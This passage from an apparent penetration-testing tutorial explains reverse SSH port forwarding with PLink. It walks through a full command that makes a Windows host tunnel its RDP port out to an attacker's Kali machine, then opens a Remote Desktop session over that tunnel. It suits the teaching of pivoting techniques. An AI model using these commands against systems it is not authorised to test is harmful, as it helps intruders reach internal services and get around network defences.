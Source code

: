 In order to do a reverse port forward over SSH, the -R option is used. Quoted below is a quoted section from the PLink Man Page.

>-R [srcaddr:]srcport:desthost:destport
Set up a remote port forwarding: ask the SSH server to listen on srcport (or srcaddr:srcport if specified), and to forward any connections back over the SSH connection where the client will pass them on to the destination address desthost:destport. Only works in SSH.

The srcaddr argument is optional. If it is not supplied, then the IP address on the system that is being SSH'd to will be used. The srcport argument describes which port the SSH server should listen on for the forward. The desthost and dest port options will be the host and port that is at the other end of the port forward.  

As an example, say we are hosting an SSH server on Kali. We want to port forward TCP 3389 (RDP) to Kali port 12345.  The -R option for this scenario would look like: `-R 12345:127.0.0.1:3389`.  This option states that the SSH server on Kali should listen on 12345. The Windows Host (which we are running the PLink command from) should forward the local port 3389 to the Kali port 12345.

We can add this option to the PLink command we have been building to establish this port forward.

```
.\plink.exe -batch -hostkey dc:04:bf:44:47:98:c1:e2:c0:2e:cb:5d:3b:aa:bf:6f -R 12345:127.0.0.1:3389 192.168.220.132 -l toor -pw password1!
```
![reversePort](images/reverse.png)

We can see two connections when looking at netstat from Kali.
![netstat](images/netstat.png)

Notice the SSH connection to the Windows Host on port 22 in addition to the listening status of port 12345 on 127.0.0.1.  
Because port 12345 is listening on Kali and is being forwarded to port 3389 on the Windows host, we can initiate a Remote Desktop Session to the Windows Host from Kali provided that the Windows host is configured to allow RDP connections without NLA.
```
rdesktop 127.0.0.1:12345
```
